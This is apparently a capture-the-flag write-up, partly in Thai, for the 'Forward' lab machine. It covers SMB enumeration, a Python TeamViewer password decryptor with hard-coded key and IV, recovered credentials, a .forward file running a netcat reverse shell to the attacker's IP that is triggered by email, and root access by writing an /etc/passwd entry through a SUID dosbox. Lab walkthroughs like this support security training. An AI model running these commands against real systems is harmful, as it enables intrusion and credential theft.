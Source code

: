 # Recon 

## Port Scan 

```bash
sudo ../Tools/scan.sh 192.168.220.157 
[*] Running rustscan...
[*] Running nmap on ports: 22,25,139,445
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-17 15:44 +07
Nmap scan report for 192.168.220.157
Host is up (0.036s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74:ba:20:23:89:92:62:02:9f:e7:3d:3b:83:d4:d9:6c (RSA)
|   256 54:8f:79:55:5a:b0:3a:69:5a:d5:72:39:64:fd:07:4e (ECDSA)
|_  256 7f:5d:10:27:62:ba:75:e9:bc:c8:4f:e2:72:87:d4:e2 (ED25519)
25/tcp  open  smtp        Exim smtpd
| smtp-commands: forward Hello nmap.scanme.org [192.168.45.164], SIZE 52428800, 8BITMIME, PIPELINING, CHUNKING, PRDR, HELP
|_ Commands supported: AUTH HELO EHLO MAIL RCPT DATA BDAT NOOP QUIT RSET HELP
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
Service Info: Host: FORWARD; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-06-17T08:44:49
|_  start_date: N/A
|_clock-skew: mean: 1h20m00s, deviation: 2h18m35s, median: 0s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: forward
|   NetBIOS computer name: FORWARD\x00
|   Domain name: \x00
|   FQDN: forward
|_  System time: 2025-06-17T04:44:52-04:00

Service detection performed. Please report any incorrect results 
```

## SMB  

```bash
smbmap -H 192.168.220.157 -u '' -p ''                  
```

![[Challenge/ProvingGround/Forward/IMG/001.png]]

```bash
smbclient -N //192.168.220.157/utils -U anonymous
```

![[Challenge/ProvingGround/Forward/IMG/002.png]]

จากข้อมูลข้างต้นเป็น Teamviewer และมี password ทีถูกเข้ารหัสไว้

#  Teamviewer password Decrypt

![[Challenge/ProvingGround/Forward/IMG/003.png]]
https://gist.github.com/rishdang/442d355180e5c69e0fcb73fecd05d7e0 

```python
import sys, hexdump, binascii
from Crypto.Cipher import AES

class AESCipher:
    def __init__(self, key):
        self.key = key

    def decrypt(self, iv, data):
        self.cipher = AES.new(self.key, AES.MODE_CBC, iv)
        return self.cipher.decrypt(data)
print('''
This is a quick and dirty Teamviewer password decrypter basis wonderful post by @whynotsecurity.
Read this blogpost if you haven't already : https://whynotsecurity.com/blog/teamviewer
 
Please check below mentioned registry values and enter its value manually without spaces.
"SecurityPasswordAES" OR "OptionsPasswordAES" OR "SecurityPasswordExported" OR "PermanentPassword"

''')
hex_str_cipher = input("Enter output from registry without spaces : ")
key = binascii.unhexlify("0602000000a400005253413100040000")
iv = binascii.unhexlify("0100010067244F436E6762F25EA8D704")

ciphertext = binascii.unhexlify(hex_str_cipher)

raw_un = AESCipher(key).decrypt(iv, ciphertext)

password = raw_un.decode('utf-16')
print("Decrypted password is : ",password)
```

![[Challenge/ProvingGround/Forward/IMG/004.png]]

จากนั้นเราจะตัดคำโดยใช้ Cyber Chef 
![[Challenge/ProvingGround/Forward/IMG/005.png]]

```bash 
fox.reg:2c0fff76ca03d7c21c0d3c8b55edd8de37f89720ae6ed382d0ad2e70f97effea0b0c1cd901cbd1ad90fc601b9e40fc9c4baf65eec51962eb4edacc7c30a8a66b0cbd9f362ac0cad1598904aecb8b9610

giammy.reg:5c096a351b711bca32f10b08ad3b9c3923abc01030042d0327dd442dbd6131c8084f2f90a030b2a785d40a827a58859f

golemitratigunda.reg:b56b8e3d8d07b9fada10e7909805ec5286889b4b4fc442963c43877a5b0c6376

python3 -m venv venv 
source venv/bin/activate 
pip3 install hexdump 
pip3 install Crypto
pip3 install pycryptodome
python3 teamdcrypt.py 
```

![[Challenge/ProvingGround/Forward/IMG/006.png]]

```credential
fox:iparalipomenidellabatracomiomachia
alberobello:alberobello
giammy:hackmeifyoureable
golemitratigunda:bangladesh
mara:paralipomenibatracomiomachia
vale:cocomerirossi
```

ทดสอบเข้าใช้งาน smb ด้วย credential ที่ได้รับมา 
```bash
smbmap -H 192.168.90.157 -u fox -p iparalipomenidellabatracomiomachia
smbclient -N //192.168.220.157/fox -U fox --password=iparalipomenidellabatracomiomachia
```

![[Challenge/ProvingGround/Forward/IMG/007.png]]
![[Challenge/ProvingGround/Forward/IMG/008.png]]
# Shell as fox 

จากการตรวจสอบจะพบว่าเมื่อผู้ใช้ได้รับอีเมล อีเมลจะถูกส่งผ่านไฟล์ .forward ในไดเร็กทอรีโฮมของผู้ใช้ ดังนั้น หากเราสามารถเปลี่ยนแปลงเนื้อหาของไฟล์ .forward และส่งอีเมลถึงผู้ใช้ได้ เราก็สามารถรับ RCE ได้ โดยบนเครื่องเป้าหมายเราจะเห็นได้ว่ามีพอร์ต 25 ยังเปิดอยู่ในกล่องนี้ด้วย ดังนั้นการส่งอีเมลถึงผู้ใช้จึงไม่น่าจะมีปัญหา ขั้นแรก เราจะต้องสร้างไฟล์ .forward ที่จะให้  Reverse Shell กลับมาหาเรา จากนั้น ให้ลบไฟล์ .forward จากแชร์ SMB และอัปโหลดไฟล์ของตัวเอง

```bash
──(kali㉿kali)-[~/Desktop]
└─$ vim .forward     

┌──(kali㉿kali)-[~/Desktop]
└─$ cat .forward 
 | nc 192.168.45.164 4444 -e /bin/bash 

```
ดำเนินการลบไฟล์ .forward และ put ไฟล์ที่เราสร้าง 

![[Challenge/ProvingGround/Forward/IMG/009.png]]

เชือมต่อเมล์ด้วยคำสั่งต่อไปนี้ 
```bash
swaks --to fox@forward --server 192.168.220.157
```

หลังจากรันคำสั่งให้รอซักครู่ เราจะสามารถส่งเมลล์ไปหาปลายทางได้ 

![[Challenge/ProvingGround/Forward/IMG/010.png]]

![[Challenge/ProvingGround/Forward/IMG/011.png]]

# Shell as Root 

```bash
fox@forward:/home$ cd mara 
cd mara 
fox@forward:/home/mara$ ls -la 
ls -la 
total 12
drwxr-xr-x 2 root root 4096 Dec 18  2020 .
drwxr-xr-x 8 root root 4096 Jan  8  2021 ..
-rw-r--r-- 1 root root   64 Dec 18  2020 .bash_history
fox@forward:/home/mara$ cat .bash_history
cat .bash_history
sshh mara@192.168.0.191
CIARLARIELLOkj99
ssh mara@192.168.0.191
fox@forward:/home/mara$ 

```

หากเราตรวจสอบข้อมูลภายใต้ mara จะมี .bash_history อยู่ ซึ่งจะพบว่ามีรหัสผ่าน ทั้งนี้ รหัสดังกล่าวเป็นของ fox 

## SUID Check

```bash
find / -perm -u=s -ls 2>/dev/null
```

![[Challenge/ProvingGround/Forward/IMG/012.png]]

ก่อนอื่นสร้างไฟล์ rootx สำหรับ copy ไปยัง /etc/passwd ด้วย dosbox 

Dosbox ปกติไม่ใช่โปรแกรมที่ทำงานแบบ **SUID** (Set User ID) ซึ่งหมายความว่ามันจะทำงานด้วยสิทธิ์สูงกว่าผู้ใช้ปกติ (ในที่นี้คือ **root** หรือผู้ดูแลระบบ) การที่มันมี SUID ถือเป็นเรื่องผิดปกติและเป็นช่องโหว่ได้

แม้ว่าเครื่องมืออย่าง GTFOBins จะบอกวิธีใช้ Dosbox ที่มี SUID ในการเขียนไฟล์ในฐานะ root ได้ แต่ก็มีปัญหาใหญ่คือ **Dosbox จะเพิ่ม "ขึ้นบรรทัดใหม่" (carriage return) ท้ายทุกบรรทัดที่เราเขียน** ทำให้การเพิ่มผู้ใช้ root ใหม่ในไฟล์ `/etc/passwd` หรือการใส่คำสั่งอันตรายใน cronjob (งานที่ตั้งเวลาไว้) **ไม่สำเร็จ** เพราะไฟล์จะเสียรูปแบบไป

### ใช้ Dosbox แบบกราฟิก

วิธีเดียวที่จะใช้ประโยชน์จากช่องโหว่ Dosbox SUID นี้ได้คือ **ต้องเปิดหน้าต่างกราฟิกของ Dosbox ขึ้นมา** ทำได้ง่าย ๆ โดย:

- **ตอน SSH เข้าเครื่อง ให้ใช้คำสั่ง `ssh -X user@host`**

การใส่ `-X` จะทำให้เมื่อเราสั่งรัน Dosbox บนเครื่องเป้าหมาย หน้าต่าง Dosbox แบบกราฟิกจะเด้งขึ้นมาบนเครื่องของเรา ทำให้เราสามารถโต้ตอบกับมันได้เหมือนโปรแกรมปกติ และสามารถทำสิ่งต่าง ๆ ที่ซับซ้อนกว่าการแค่เขียนไฟล์บรรทัดเดียวได้

```bash
sshpass -p CIARLARIELLOkj99 ssh -X fox@192.168.220.157   
cd /tmp 
cat rootx 
rootX:S3g6q5KuTzNkU:0:0:root:/root:/bin/bash # Password: root 
dosbox 
```

![[Challenge/ProvingGround/Forward/IMG/013.png]]

![[Challenge/ProvingGround/Forward/IMG/014.png]]


# PWNED 